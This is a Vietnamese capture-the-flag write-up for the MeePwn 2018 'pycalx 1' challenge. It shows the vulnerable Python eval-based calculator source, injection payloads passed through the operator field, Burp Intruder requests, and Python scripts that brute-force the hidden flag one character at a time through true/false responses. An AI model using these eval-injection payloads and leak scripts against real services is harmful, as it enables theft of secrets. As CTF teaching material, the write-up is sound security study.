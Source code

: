 ```yaml
---
title: "Meepwn qual round - pycalx 1"
date: 2018-09-11T02:38:33+07:00
author: "Kev"
tags: ["ctf", "python"]
comments: true
draft: false
Archives: '2018'
autoThumbnailImage: false
thumbnailImagePosition: top
thumbnailImage: ''
coverImage: ''
---
```


Thử thách cung cấp cho mình 1 form dữ liệu cùng với sourcecode như sau:

{{<highlight python3>}}
#!/usr/bin/env python
import cgi;
import sys
from html import escape

FLAG = open('/var/www/flag','r').read()

OK_200 = """Content-type: text/html

<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css">
<center>
<title>PyCalx</title>
<h1>PyCalx</h1>
<form>
<input class="form-control col-md-4" type=text name=value1 placeholder='Value 1 (Example: 1  abc)' autofocus/>
<input class="form-control col-md-4" type=text name=op placeholder='Operator (Example: + - * ** / // == != )' />
<input class="form-control col-md-4" type=text name=value2 placeholder='Value 2 (Example: 1  abc)' />
<input class="form-control col-md-4 btn btn-success" type=submit value=EVAL />
</form>
<a href='?source=1'>Source</a>
</center>
"""

print(OK_200)
arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>'+escape(str(open(__file__,'r').read()))+'</pre>')

if 'value1' in arguments and 'value2' in arguments and 'op' in arguments:

    def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            print('<center>Invalid value</center>')
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)

    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)

    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))

    print('<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>')
    print('>>>> print('+escape(calc_eval)+')')

    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print("Invalid") # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")


    print('>>> </pre></div></div></div>')
{{</highlight>}}

Server nhận dữ liệu ở 3 biến: `value1`, `value2` và `op`. Cả 3 biến đều bị filter, chức năng là thực hiện phép tính nhập từ người dùng.

{{<highlight python>}}
>>>> print('aa'+'bbb')
Invalid
>>>
>>>> print(1111*222)
246642
{{</highlight>}}

Mục đích rất rõ ràng, phải tìm cách để gọi biến Flag ra, nhưng xem code ở dòng này thì chương trình đã chặn output (tức là dạng blind).

{{<highlight python>}}
if result.isdigit() or result == 'True' or result == 'False':
    print(result)
else:
    print("Invalid")
{{</highlight>}}

Khi rà soát lại code, mình phát hiện code có 1 điểm hơi lạ, ở function `get_op(val)` nhận độ dài biến val tận 2 kí tự nhưng chỉ filter đúng kí tự đầu, nên mình nghĩ ra cách để break dấu `'` chèn biến `FLAG` vào, đồng thời thực hiện so sánh để nhận giá trị `True`, `False`.

{{<highlight python>}}
>>>> print('a'+''<FLAG#')
False
{{</highlight>}}

Có vẻ đi đúng hướng, được biết trước là flag có dạng `MeePwnCTF{}` tiếp theo mình test thế này:

{{<highlight python>}}
>>>> print('L'+''>FLAG#')
False
>>>
>>>> print('M'+''>FLAG#')
False
>>>
>>>> print('N'+''>FLAG#')
True
{{</highlight>}}

Test theo bảng chữ `printable` từ đầu đến khi gặp response trả về là `True` và lấy kí tự trước đó:

{{<highlight python3>}}
# python 3.6
import requests
import string
import sys
from urllib.parse import quote_plus
url = "http://178.128.96.203/cgi-bin/server.py?value1={}&op=%2B%27&value2=%3EFLAG%23"
wordlist = list(string.printable[:-6])
wordlist.sort()
temp = "_"
flag = "MeePwnCTF{"
while True:
	for char in wordlist:
		sys.stdout.write(temp)
		sys.stdout.flush()
		r = requests.get(url.format(quote_plus(flag+char)))
		if ("True" in r.text):
			flag += temp
			break
		temp = char
		sys.stdout.write("\b")
{{</highlight>}}

Flag chạy tới đoạn `MeePwnCTF{python3.66666666666666_` thì bị lỗi. Có anh trong team bảo là do trong flag có kí tự bị chặn `[]()'"` nên không chạy tiếp được nữa. Lúc này mình tưởng ra flag rồi, ai ngờ …..đành tính cách khác. Suy nghĩ hơi lâu không tìm ra được cách nào để gửi lên kí tự bị chặn đấy nhưng mình có kế tạm thời là đoán tất cả những kí tự không bị chặn nhưng chưa tìm ra, ví dụ `MeePwnCTF{python3.66666666666666_*[][][][][]*xxxxxxxxx}` mình có thể tìm được kí tự xxxx đó mà không cần biết kí tự đặc biệt. Payload mình build như sau:

{{<highlight python>}}
>>>> print('Mee'+'' in FLAG#')
True
>>>
>>>> print('}'+'' in FLAG#')
True
{{</highlight>}}

Sourcecode trước không dùng được nữa nên mình dùng burp suite intruder thay thế (mất thời gian quá {{<emoji ah>}})

```
GET /cgi-bin/server.py?value1=§_§&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm tất cả kí tự có trong FLAG
```

{{<figure src="/images/uploads/meepwn.png" width="100%" title="Burpsuite intruder">}}

Tiếp đó, mình sẽ đoán cụm từ trong flag

```
GET /cgi-bin/server.py?value1=§_§a&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm kí tự đứng trước a
GET /cgi-bin/server.py?value1=a§_§&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm kí tự đứng sau a
```

Cứ như thế đến hết danh sách kí tự tìm được thì mình tìm được 80% flag như là `MeePwnCTF{python3.66666666666666_*you_passed_this?*}` dấu * là kí tự đặc biệt. Sau khi làm xong bước này thì anh trong team quăng cho payload:

```
http://178.128.96.203/cgi-bin/server.py
?value1=M
&op=%2B%27
&value2= %2b source < FLAG%23
&source=e
>>>> print('M'+'' + source < FLAG#')
True
```

Vậy là xong, biến source không bị filter nên thoải mái mà inject. Payload cuối cùng là thế này:

{{<highlight python3>}}
# Python 3.6
import requests
import string
import sys
from urllib.parse import quote_plus
# url = "http://178.128.96.203/cgi-bin/server.py?value1={}&op=%2B%27&value2=%3EFLAG%23"
url = "http://178.128.96.203/cgi-bin/server.py?value1=MeePwnCTF%7bpython3.66666666666666_&op=%2B%27&value2=%20%2b%20source%20%3E%20FLAG%23&source={}"
wordlist = list(string.printable[:-6])
wordlist.sort()
temp = "_"
flag = ""
sys.stdout.write("MeePwnCTF{python3.66666666666666_")
while True:
	for char in wordlist:
		sys.stdout.write(temp)
		sys.stdout.flush()
		r = requests.get(url.format(quote_plus(flag+char)))
		if ("True" in r.text):
			flag += temp
			break
		temp = char
		sys.stdout.write("\b")
{{</highlight>}}


FLAG: `MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}`